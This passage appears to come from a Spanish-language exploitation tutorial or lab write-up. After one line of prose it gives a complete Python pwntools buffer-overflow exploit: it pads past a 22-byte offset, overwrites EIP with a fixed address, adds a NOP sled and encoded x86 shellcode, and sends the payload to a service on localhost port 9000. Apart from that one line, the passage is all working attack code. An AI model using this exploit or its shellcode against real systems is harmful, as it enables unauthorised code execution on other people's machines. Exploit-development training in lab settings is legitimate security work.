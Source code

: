 Ahora si, teniendo el shellcode actualizamos el exploit:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = p32(0x804948b)

    # NOps
    nops = b"\x90"*32

    # Shellcode
    
    shellcode =  b""
    shellcode += b"\xda\xc8\xba\xf6\x2a\x66\x39\xd9\x74\x24\xf4"
    shellcode += b"\x5b\x2b\xc9\xb1\x12\x31\x53\x17\x83\xc3\x04"
    shellcode += b"\x03\xa5\x39\x84\xcc\x78\xe5\xbf\xcc\x29\x5a"
    shellcode += b"\x13\x79\xcf\xd5\x72\xcd\xa9\x28\xf4\xbd\x6c"
    shellcode += b"\x03\xca\x0c\x0e\x2a\x4c\x76\x66\x01\xbf\x88"
    shellcode += b"\x77\x31\xc2\x88\x54\x43\x4b\x69\x2a\x25\x1c"
    shellcode += b"\x3b\x19\x19\x9f\x32\x7c\x90\x20\x16\x16\x45"
    shellcode += b"\x0e\xe4\x8e\xf1\x7f\x25\x2c\x6b\x09\xda\xe2"
    shellcode += b"\x38\x80\xfc\xb2\xb4\x5f\x7e"






    payload = buffer + eip + nops + shellcode


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```
